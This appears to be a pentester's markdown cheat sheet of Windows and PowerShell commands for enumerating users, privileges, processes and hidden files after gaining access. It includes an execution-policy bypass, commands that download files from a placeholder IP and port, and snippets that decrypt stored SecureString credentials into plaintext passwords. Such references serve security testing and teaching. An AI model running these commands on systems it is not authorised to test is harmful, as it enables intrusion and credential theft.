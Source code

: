 ## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
echo %username% (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
$ENV:USERNAME (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
Get-Host | Select-Object Version (to check the whole version of powershell)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)


## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />

## Locate files in the whole drive
dir filename.extension /s (do it from C:\ folder)(supports regex)

## Unhide directories and files
attrib -h -r -s /s /d C:\*.* (The C drive can be changed to any drive of your choice)
* GCI alias Get-ChildItem
    1. -Recurse       - It digs deep into the child dir.           
    2. -Force or -FO  - It shows the hidden dir too. 
    #### usage example 
        gci c:/ -recurse -force 
<br />

## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")<br />
powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name > Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

$credential = Import-CliXml -Path  PathToXml\MyCredential.xml <br />
$credential.GetNetworkCredential().Password <br />

### If you have a single string

$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString <br />
[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))
